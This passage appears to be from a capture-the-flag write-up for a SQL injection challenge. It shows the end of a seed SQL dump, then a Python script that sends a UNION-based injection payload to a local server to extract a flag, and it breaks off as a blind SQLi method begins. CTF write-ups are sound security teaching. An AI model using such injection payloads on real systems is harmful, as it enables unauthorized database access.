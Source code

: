 ```sql
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;

```
{: file="dump.sql" }

## Analyzation

This is a [SQL injection](https://portswigger.net/web-security/sql-injection) challenge since the user inputs are not checked carefully.

## Solution

### Way 1: [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks)

We want to see the response, so we will use GET method.

```py
import requests

payload = "' UNION SELECT 1, bio, 3 FROM users WHERE bio LIKE 'Flag%' and '1'='1"

URL = "http://localhost:8000/?user={}".format(payload)
response = requests.get(URL)

print(response.text)
```

### Way 2: [Blind SQLi](https://owasp.org/www-community/attacks/Blind_SQL_Injection)

In this way, GET method is used.

#### Find the correct admin
